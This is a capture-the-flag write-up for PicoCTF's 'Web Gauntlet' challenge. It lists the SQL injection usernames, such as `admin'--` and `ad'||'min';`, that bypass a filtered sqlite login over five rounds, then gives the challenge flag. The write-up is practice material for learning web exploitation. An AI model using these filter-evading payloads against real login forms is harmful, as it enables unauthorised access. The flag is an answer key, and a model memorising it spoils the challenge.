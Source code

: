 # Web Gauntlet
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: Web Gauntlet
* Category: Web Exploitation
* Points: 200
* Date: 08-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220407232135.png)

---
## Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window.

---
## Solution:
This is an QSL Injection challenge, we need to get past the filers.

We get two inks
The first is to a login page, the second is telling us the first filter is 'or', that means that the classic SQL Injection `' or 1=1--` won't work.

![](./attachments/Pasted%20image%2020220408002633.png)

### Round 1:

Filter: `or`

Username: `admin'--`

Password: `1`

### Round 2:

Filter: `or and like = --`

Username: `admin';`

Password: `1`

### Round 3:

Filter: `or and = like > < --`

Username: `admin';`

Password: `1`

### Round 4:

Filter: `or and = like > < -- admin`

Username: `ad'||'min';`

Password: `1`

### Round 5:

Filter: `or and = like > < -- union admin`

Username: `ad'||'min';`

Password: `1`

![](./attachments/Pasted%20image%2020220408002116.png)

And the .php file.

![](./attachments/Pasted%20image%2020220408001959.png)

We can see the full filers throughout the challenge, and at the bottom is the flag!

**Flag:** `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`

---
**Tags:** [[PicoCTF]]